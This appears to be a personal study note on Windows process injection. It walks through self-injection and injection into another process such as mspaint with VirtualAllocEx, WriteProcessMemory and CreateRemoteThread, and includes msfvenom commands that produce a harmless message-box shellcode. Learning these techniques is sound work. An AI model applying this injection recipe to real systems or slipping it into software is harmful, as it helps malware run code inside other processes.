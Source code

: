 - Processes - Identified by PID
	- Types
		- User Mode
		- Kernel Mode -> Higher Privileges
	- PIDs can be used to get *Handles* to processes
- Windows API
	- some APIs return pointers to `struct`
- Injection Attack -> Fileless shellcode execution
	- Find an existing process and inject malicious shell code
	- Steps
		- Allocation Memory
		  logseq.order-list-type:: number
		- Write Shell Code
		  logseq.order-list-type:: number
		- Execute Shell Code
		  logseq.order-list-type:: number
	- Metasploit Shell Code - `msfvenom -p windows/messagebox TEXT="ShellCode by MSFVenom" Title="Shell Code" -f c`
	- For process injection into `mspaint` - `x64` is required
		- `msfvenom -p windows/messagebox TEXT="ShellCode by MSFVenom" Title="Shell Code" -f c -a x64`
-
---
- **self-injection.cpp**
	- Step 1 -> Allocating memory
		-
		  ```
		  LPVOID allocated_mem = VirtualAlloc(NULL, // -> Base Address of block of memory for allocation [NULL-> OS will decide]
		                         sizeof(shellcode),
		                         (MEM_COMMIT | MEM_RESERVE), // -> Allocation Type [Reserve + Commit] [logic OR -> x3000]
		                         PAGE_EXECUTE_READWRITE); // -> Page Permissions
		  ```
		- `VirtualAlloc` will return a base pointer to the start of the memory page created
			- base pointer is of type `void pointer`
			- `void pointer` points to an `undefined` data type in memory
	- Step 2 -> Write Shell Code to Allocated Memory
		-
		  ```
		  RtlCopyMemory(allocated_mem, # destination
				shellcode, # source
		                sizeof(shellcode));
		  ```
	- Step 3 -> Execute Shell Code
		-
		  ```
		  HANDLE hThread =  CreateThread(NULL,0,
		                                 (LPTHREAD_START_ROUTINE)allocated_mem, # Start of the code that must be executed when thread is created 
		                                 NULL,
		                                 0,
		                                 NULL);
		  ```
			- Halt program till thread finishes execution (time set to `INFINITE`)
				- `WaitForSingleObject(hThread, INFINITE)`
		-
- **process-injection.cpp**
	- Step 0 -> Get a Handle to an existing process
		-
		  ```
		  HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, // access all process resources
		  				FALSE, // child processes are not inherited by handle
		                                pe32.th32ProcessID); // since PIDs change, take a snapshot and obtain PID of required software
		  ```
	- Step 1 -> Allocate Virtual Memory
		- Use `VirtualAllocEx` to allocate a memory page in the target process' memory space
			-
			  ```
			  LPVOID allocated_mem = VirtualAllocEx(hProcess, -> Handle to target process
			                                        NULL,
			                                        sizeof(shellcode),
			                                        (MEM_COMMIT | MEM_RESERVE),
			                                        PAGE_EXECUTE_READWRITE);
			  ```
	- Step 2 -> Write Shell Code to Allocated Memory
		-
		  ```
		      WriteProcessMemory(hProcess, -> Handle to target process
		                         allocated_mem,
		                         shellcode,
		                         sizeof(shellcode),
		                         NULL);
		  ```
	- Step 3 -> Execute Shell Code
		- Create a remote thread to execute a shellcode
			-
			  ```
			  	HANDLE hThread = CreateRemoteThread(hProcess,
								NULL, 
								0,
								(LPTHREAD_START_ROUTINE)allocated_mem,
								NULL, 
								0, 
								NULL);
			  ```
